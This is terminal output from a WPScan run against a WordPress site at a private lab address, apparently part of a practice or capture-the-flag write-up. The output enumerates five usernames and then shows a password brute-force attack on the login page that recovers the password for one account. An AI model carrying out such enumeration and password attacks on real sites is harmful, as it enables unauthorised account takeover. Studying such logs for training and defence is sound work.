 ```
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.103/wp-content/themes/twentytwentyone/style.css?ver=1.1, Match: 'Version: 1.1'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] abuzerkomurcu
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.56.103/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] gadd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gill
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] collins
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] satanic
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 5 user/s
[SUCCESS] - gill / interchangeable                                                                                                                          
Trying abuzerkomurcu / Author Time: 00:03:19 <===========================================================              > (7470 / 9013) 82.88%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: gill, Password: interchangeable

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Apr 12 19:33:26 2021
[+] Requests Done: 7537
[+] Cached Requests: 11
[+] Data Sent: 2.48 MB
[+] Data Received: 53.84 MB
[+] Memory used: 195.387 MB
[+] Elapsed time: 00:03:24
```